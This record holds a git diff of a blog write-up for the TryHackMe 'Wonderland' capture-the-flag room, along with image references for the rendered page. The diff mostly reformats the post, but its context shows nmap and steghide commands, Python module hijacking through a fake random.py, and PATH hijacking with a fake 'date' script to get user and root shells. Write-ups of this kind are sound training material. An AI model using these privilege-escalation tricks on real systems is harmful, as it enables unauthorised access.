

Before and after one commit to bvr0n/bvr0n.github.io, a Jekyll site: the page built from _posts/thm/2021-01-11-wonderland.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update and rename 2020-11-10-wonderland.md to 2021-01-11-wonderland.md

````diff
--- a/_posts/thm/2020-11-10-wonderland.md
+++ b/_posts/thm/2021-01-11-wonderland.md
@@ -2,13 +2,13 @@
 title : Wonderland - Writeup
 ---
 
-_**Nov 10, 2020**_
+_**Jan 11, 2021**_
 
 [Wonderland](https://tryhackme.com/room/wonderland) Writeup
 
 ## Recon :
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/Wonderland$ nmap -sC -sV 10.10.252.9
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 10:28 EST
 Nmap scan report for 10.10.252.9
@@ -29,7 +29,7 @@
 
 Goin to the web page gets us only a `jpeg` image, let's download it and see what can we do with it :
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/Wonderland$ wget http://10.10.252.9/img/white_rabbit_1.jpg
 bvr0n@kali:~/CTF/THM/Wonderland$ steghide extract -sf white_rabbit_1.jpg
 Enter passphrase:
@@ -40,6 +40,7 @@
 ```
 follow the r a b b i t
 ```
+
 I didn't understand it at first, but when i brute forced directories i got the idea :
 
 ```bash
@@ -71,7 +72,9 @@
 in Alice home directory there is a script that basically import the random module.
 
 So, we can create a file named random.py in our current working directory that executes `/bin/bash` This way the python file should be loaded instead of the "real" random module, and in turn give us a shell as the rabbit user.
-`random.py` :
+
+#### `random.py` :
+
 ```python
 import os
 
@@ -96,7 +99,7 @@
 
 We can abuse this by exporting our own `$PATH` and providing a fake `date` script that will give us a shell with the user :
 
-```
+```bash
 rabbit@wonderland:/tmp$ cat date
 #!/bin/bash
 /bin/bash
@@ -134,14 +137,4 @@
 root
 uid=0(root) gid=1003(hatter) groups=1003(hatter)
 ```
-
-<br>
-best regards
-
-[bvr0n](https://github.com/bvr0n)
-
-
-<br>
-[back to main()](http://bvr0n.github.io/)
-
-<br>
+Hope you like it.
````
